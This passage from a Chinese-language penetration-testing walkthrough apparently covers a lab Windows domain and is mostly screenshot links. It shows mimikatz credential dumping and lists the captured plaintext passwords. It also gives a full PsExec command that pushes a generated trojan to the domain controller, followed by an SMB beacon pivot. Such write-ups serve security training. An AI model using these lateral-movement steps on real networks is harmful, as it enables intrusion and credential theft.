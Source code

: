 ![](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210514113558287.png)

![image-20210514132705782](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210514132705782.png)



当前administrator权限，尝试mimikatz读密码或者也可以通过elevate模块先进行提权

![image-20210514143957739](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210514143957739.png)

读出账密

![image-20210514130805532](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210514130805532.png)

![image-20210514130817322](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210514130817322.png)

抓到如下账密

```
Administrator:dc123.com
leo:123.com
```

之后可以通过PsExec进行传递执行命令，但是由于目标主机是内网有可能不出外网，那么我们需要进行中转上线

先创建一个监听器

![image-20210514144044460](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210514144044460.png)

之后winexecutable生成木马

![image-20210514144124667](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210514144124667.png)

将木马上传，同是上传psexec64.exe程序

![image-20210514144238732](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210514144238732.png)

之后使用命令运行PsExec执行命令，用刚刚mimikatz抓取到的明文密码配合生成的木马上线域控

```
shell C:\phpStudy\PHPTutorial\WWW\public\PsExec64.exe -accepteula \\192.168.138.138 -u sun\Administrator -p dc321.com -d -c C:\phpStudy\PHPTutorial\WWW\public\4444.exe
```

但是我这边失败了。



尝试使用smb中继

同样新建listener,指定smb的beacon

![image-20210514144403129](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210514144403129.png)

之后在先前的beacon中右键spawn，选择新建的smb的linstener，会返回一个子会话

![image-20210514144642800](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210514144642800.png)
